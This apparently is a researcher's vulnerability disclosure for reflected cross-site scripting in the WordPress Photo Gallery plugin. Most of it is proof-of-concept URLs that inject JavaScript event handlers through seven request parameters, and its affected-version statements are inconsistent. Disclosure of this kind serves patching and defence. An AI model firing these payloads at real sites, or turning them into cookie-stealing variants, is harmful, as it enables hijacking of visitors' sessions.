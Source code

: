 EXP
---

    WordPress Photo Gallery 1.5.69 Cross Site Scripting Vulnerability
    Researcher Name: ThuraMoeMyint
    Twitter: https://twitter.com/mgthuramoemyint
    Vendor Url: https://wordpress.org/plugins/photo-gallery/

    "Photo Gallery by 10Web / Mobile-Friendly Image Gallery" (photo-gallery) Multiple RXSS

    The parameter bwg_album_breadcrumb_0 is able to inject malicious javascript code.
    Affected Version < 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&bwg_album_breadcrumb_0=[{"id":"1'><img/src=x onerror=alert(1)>","page":1},{"id":"1","page":1}]&gallery_type=album_extended_preview

    The parameter "shortcode_id" is able to inject malicious javascript.
    Affected Version < 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&gallery_type=image_browser&gallery_id=5&tag=0&album_id=0&theme_id=1&shortcode_id=9%22%20onmouseover=alert(id)//

    The parameter "album_gallery_id_0" is able to inject malicious javascript.
    Affected Version <= 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&album_gallery_id_0=%27);}%20alert(1);//

    The parameter "bwg_album_search_0" is able to inject malicious javascript.
    Affected Version <= 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&bwg_album_search_0=%22%20autofocus%20onfocus%3D%22alert(1)

    The parameter "tag" is able to inject malicious javascript.
    Affected Version <= 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&tag=%22%20onmouseover=alert(1)%3E

    The parameter "type_0" is able to inject malicious javascript.
    Affected Version <= 1.5.68

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&type_0=%27);}%20alert(document.domain);//

    The parameter "theme_id" is able to inject malicious javascript.
    Affected Version <= 1.5.69

    vuln.com/wp-admin/admin-ajax.php?action=bwg_frontend_data&theme_id=%22%20onmouseover=alert(1)%3E